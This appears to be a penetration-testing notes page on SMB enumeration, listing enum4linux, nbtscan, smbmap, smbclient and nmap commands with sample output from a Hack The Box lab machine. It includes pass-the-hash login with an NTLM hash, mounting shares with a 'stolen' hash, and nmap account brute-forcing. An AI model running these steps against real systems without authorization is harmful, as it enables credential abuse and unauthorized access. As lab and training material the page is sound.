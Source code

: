 # SMB Scanning
This module contains method sof gathering information from targets that have Samaba, or the Windows sharing service (SMB) enabled.
## Enum4LINUX

`enum4linux (TARGET IP)`

## NBTScan

```nbtscan (TARGET IP ADDRESS)```

## SMBMap
The basic syntax fo `smbmap` is as follows,
```smbmap -H (TARGET IP ADDRESS)```
But, if you have access to an NTLM hash, let's use `0B186E661BBDBDFFFFFFFFFFF8B9FD8B` for example, you can append the common Windows NULL string along with a colon, `aad3b435b51404eeaad3b435b51404ee` to it as,
```
aad3b435b51404eeaad3b435b51404ee:0B186E661BBDBDFFFFFFFFFFF8B9FD8B
```
and pass along the username, let's say `user123` for example, of the credentials to get more SMB map information like so,
```
wnl8:/pwnt/windows/smbmap# ./smbmap.py -u user123 -p 'aad3b435b51404eeaad3b435b51404ee:0B186E661BBDBDFFFFFFFFFFF8B9FD8B' -H (TARGET IP ADDRESS)
[+] Finding open SMB ports....
[+] Hash detected, using pass-the-hash to authentiate
[+] User session establishd on (TARGET IP ADDRESS)...
[+] IP: (TARGET IP ADDRESS):445	Name: ypuffy.hackthebox.htb                             
	Disk                                                  	Permissions
	----                                                  	-----------
	user123's Files                                    	READ, WRITE
	IPC$                                              	NO ACCESS
'
```
## SMBClient
SMBClient is very bad software and I believe it's because there are too many variables at stake when trying to successfully use it. Your results may vary, and please do not take any authentication or listing errors as true. Test your enumerated credentials and data using other tools as well. This section describes methods for mounting and listing directories in Samaba (LINUX)/Windows shares.
### Target information
Attempt to mapp the share without any credentials,

```smbclient -N -L (TARGET IP)```

### Mounting shares
To mount a share without knowing any valid users (anonymous/guest login),
```
smbclient "\\\\(TARGET IP)\\IPC\$\\" -N
```
To mount a share with an enumerated username,
```
smbclient "\\\\(TARGET IP)\\IPC\$\\" -N -U (USER)
```
To mount a share with a username and stolen NTLM hash,
```
root@attacker-machine:~# smbclient \\\\(TARGET IP ADDRESS)\\(SHARE NAME)\\ -U (DOMAIN NAME)\(USERNAME)%(FULL NTLM HASH)
```

### File Transfers
To get a file from the target server,

`get "filename with or without spaces.txt"`

## NMAP
The NMAP Scripting Engine (NSE) can be used to brute-force accounts on the server,

`nmap --script smb-brute.nse -p445 (TARGET IP)`
